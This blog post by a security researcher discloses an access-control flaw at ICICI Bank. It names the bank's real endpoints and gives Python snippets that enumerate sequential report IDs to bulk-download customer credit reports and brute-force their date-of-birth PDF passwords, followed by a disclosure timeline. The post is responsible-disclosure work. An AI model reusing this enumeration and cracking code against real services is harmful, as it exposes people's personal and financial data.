 ```yaml
---
layout: post
title: ICICI Bank Exposes Customer Credit Reports
subtitle: Improper Access Control
cover-img: /assets/img/2022_10_31/POCOutput.jpg
thumbnail-img: /assets/img/2022_10_31/SampleCreditReport.png
share-img: /assets/img/2022_10_31/POCOutput.jpg
tags: [server configuration, encrypted pdf, bruteforce]
---
```


For this blogpost, I will be deviating from my usual topic of malware analysis and talking about how an improper access control on a bank's server lead to exposure of its customers' credit reports. 

ICICI Bank is a leading bank and financial services company in India. It offers a wide range of banking products and financial services, including the ability to download CIBIL [1] credit reports. These credit reports contain sensitive information like 
* Date of Birth
* Income Tax ID Number (PAN)
* Universal ID Number
* Personal and Work Phone Numbers
* Personal/Home and Work Addresses 
* Associated Email Addresses
* Credit Score
* Past Credit History

The issue outlined in this post allowed anyone to download ICICI bank's customer credit reports from their server and access the Personally Identifiable Information (PII) within them.

As an ICICI bank customer, when you request for a credit report through its iMobile app [2], it performs the following two actions
1. Sends an email to your registered email address with an encrypted pdf attachment. The password for this pdf is the first four alphabets of the customer's name in lower case and year of birth
2. The app also opens the URL https://203.27.235.149:98/GetRpt.aspx?refno=REDACTED_NUMBER in the default browser, which downloads an encrypted pdf. The password for this pdf is the customer's date of birth in the format DDMMYYYY.

The second action is the root cause of this post. The URL provided allows for unauthenticated access to credit reports. Since the REDACTED_NUMBER is sequentially generated for every requested credit report, they can be downloaded by a simple script. This, coupled with the weak password, allows an attacker to download all the credit reports hosted by ICICI Bank, and bruteforce it offline. 

To further expand on how trivial, it is to bruteforce the password, assume that the youngest customer of ICICI bank is 15 years old, and the oldest is one hundred years old. This means the sample space is of the size 365*(100-15) = 31025. The maximum attempts required to crack the Credit Report's password is 31025. My 3.3GHz Ryzen 9 PC can perform 221.39 attempts per second single threaded. It will be able to crack a 50-year-old person's password in 57.7 seconds. The below image is an example of how quickly my proof-of-concept code was able to download and **crack my own** credit report.

![Proof of Concept Output](/assets/img/2022_10_31/POCOutput.jpg){: .mx-auto.d-block :}
<center><em>Figure 1: Proof of Concept Output</em></center>

# Proof of Concept

The complete PoC code was shared with ICICI bank, which I will not include in this post. This section contains only few sections of the code that I found interesting. I have replace sensitive values by "REDACTED"

The below code will iterate through the reference number query parameter in the URI and download a copy of the credit report and store it locally.


```
def download_credit_reports(vulnerable_icici_uri):
    successful_file_downloads = []
    reference_number_start = REDACTED
    reference_number_end = REDACTED
    query_param = {'refno': reference_number_start}
    while reference_number_start <= reference_number_end:
        try:
            response = requests.get(vulnerable_icici_uri, params=query_param)
            downloaded_filename = str(reference_number_start) + '.pdf'
            with open(downloaded_filename, 'wb') as f:
                f.write(response.content)
                successful_file_downloads.append(downloaded_filename)
                logger.info(f'Successfully downloaded the credit report {downloaded_filename} from the URL {response.url}')
        except requests.exceptions.RequestException as e:
            raise SystemExit(e)

        reference_number_start += 1

    return successful_file_downloads
```

The below section bruteforces the password required to decrypt the credit report. Knowing the exact format of the password and the limited sample space makes the whole operation trivial. 

```
def bruteforce_pdf_password(pdf_file_name):
    pdf_file_reader = PdfFileReader(pdf_file_name)

    # Calculate Performance Metrics
    attempt_count = 0
    start_time = time.time()

    baseline_end_age = 365 * 100  # 100 years is the max we will go
    baseline_start_age = 365 * 15  # 15 years is the min we will consider
    iteration_date = date.today() - timedelta(days=baseline_start_age)
    end_date = date.today() - timedelta(days=baseline_end_age)

    while iteration_date >= end_date:
        attempt_count += 1
        password = iteration_date.strftime("%d%m%Y")
        if decrypt_pdf(pdf_file_reader, pdf_file_name, password):
            logger.info(f'Bruteforced in {attempt_count} attempts and {round(time.time() - start_time, 2)} seconds')
            write_decrypted_pdf(pdf_file_reader, pdf_file_name)
            break

        iteration_date -= timedelta(days=1)
```

# ICICI Bank Correspondence

ICICI Bank does not have an official contact method to report security issues with their services. As a result, I had to find infosec employees in ICICI Bank through LinkedIn and contact them to report this issue. The only response I got was that the appropriate team has been engaged, but the issue was not fixed even after 6 months. 

During later investigation, I was able to identify that they moved to a newer endpoint - https://bureauoneprod.icicibank.com:8443/GetRpt.aspx?refno=REDACTED_NUMBER. I reached out to ICICI bank again and got the same response as before.

As a result, I raised a complaint with Reserve Bank of India Ombudsman about this issue. Within 10 days of this complaint, the issue was fixed, and I received the following response 

![ICICI Bank Response](/assets/img/2022_10_31/ICICIBankResponse.png){: .mx-auto.d-block :}
<center><em>Figure 2: ICICI Bank Response</em></center>


# Disclosure Timeline
1. 2022-04-16 - Identified that ICICI Bank's customer credit reports can be accessed by through unauthenticated requests.
2. 2022-04-16 - Due to lack of reporting mechanisms at ICICI for security issues, I reached out to a "Threat Intelligence Analyst" and a "Chief Manager" in their InfoSec organization through LinkedIn.
3. 2022-04-18 - Received a response from the "Chief Manager" and sent them an email with contents of this blogpost along with the PoC code. 
4. 2022-04-25 - Followed up with the "Chief Manager" on a resolution. 
5. 2022-05-08 - Added the Threat Intelligence Analyst previously mentioned to this email thread and requested for an update on the resolution. 
6. 2022-05-09 - Received a response on the appropriate team being notified for response. 
7. 2022-10-01 - Reached out again to the ICICI bank contacts about the issue not being fixed. Got the same response as above.
8. 2022-10-07 - Raised a complaint with Reserve Bank of India Ombudsman through their portal. 
9. 2022-10-17 - Received a response for the above complaint from ICICI Bank, confirming the fix.



# References
1. [https://www.cibil.com/consumer](https://www.cibil.com/consumer)
2. [https://www.icicibank.com/imobilecampaign/index.html](https://www.icicibank.com/imobilecampaign/index.html)

